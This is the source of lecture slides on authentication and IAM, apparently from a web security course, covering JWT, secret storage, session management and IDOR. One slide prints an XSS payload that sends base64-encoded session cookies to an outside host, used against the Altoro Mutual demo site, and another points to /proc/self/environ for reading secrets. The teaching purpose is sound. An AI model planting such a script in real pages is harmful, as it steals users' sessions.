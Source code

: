 ```yaml
---
title: "Week 3 - Auth and IAM"
layout: "bundle"
outputs: ["Reveal"]
date: 2023-02-24T02:57:21+10:00
---
```


{{< slide class="center" >}}

## Week 3

---

## DNS Recon Recap

* Walkthrough
  * [Sublist3r](https://github.com/aboul3la/Sublist3r)
  * [Word List](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)

---

## Lecture Review

* Build a Flask app
* Python semantics
  * `__name__`, `__main__`, `__dir__`
* JWT
  * Next slide!

---

## More on JWT

* Anatomy of a JWT token
* What should be in a JWT token
* Pros and Cons
* Store secrets in a `.env`?
  * Why `.env`?

---

### DevOps, DevSecOps, DevSec..Oops..

{{% section %}}

> More on this in later weeks

* `.env` + `.gitignore`
* Scoped environment
* ... Why _not_ `.env`

---

If it's in the environment, the entire process can see it.. even if you unset it in the code* >:(

*: sometimes

> `/proc/self/environ`

{{% /section %}}

---

> An alternative

* External data sources
  * i.e. AWS Parameter Store
  * i.e. Google Secrets Manager
  * i.e. HashiCorp Vault
  * i.e. Apple KeyChain
* Centralised management
* Rotation + deployment at scale
* Access control

---

## Back to Altoro Mutual

jk the demo did work I was just dumb

> 👉 Login as admin first 👈

```html
<script>
  fetch("https://[...]/?v="+btoa(document.cookie))
</script>aaa
```

---

## How to be a script kiddie

* Python + `requests`
* Node.js + `node-fetch`
* JavaScript + `fetch`
* JavaScript + `XMLHTTPRequest`
* etc

---

## Session Management

* Last week, auth via cookies
* What does it mean to "log out"
* Broken session management

---

## Learning HTTP Responses

* 2XX - Success
* 3XX - Redirect
* 4XX - Client Error
  * [418](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/418)
  * [451](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/451)
* 5XX - Server Error

---

# IDOR

> Insecure Direct Object Reference


> 🚪🚪

---

## Logistics

Midterm Exam, Reports
